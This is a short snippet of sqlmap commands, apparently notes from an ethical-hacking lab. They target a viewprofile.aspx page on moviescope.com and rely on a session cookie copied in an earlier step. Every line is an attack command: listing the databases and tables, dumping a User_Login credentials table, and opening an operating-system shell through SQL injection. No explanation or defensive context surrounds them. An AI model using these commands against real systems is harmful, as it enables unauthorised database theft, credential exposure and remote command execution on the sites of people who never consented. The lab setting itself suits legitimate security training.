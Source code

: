 #SQLMAP
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value which you have copied in Step#7]" --os-shell
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value which you have copied in Step#7]" -D moviescope -T User_Login --dump 

sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value which you have copied in Step#7]" -D moviescope --tables

sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value that you copied in Step#7]" --dbs 

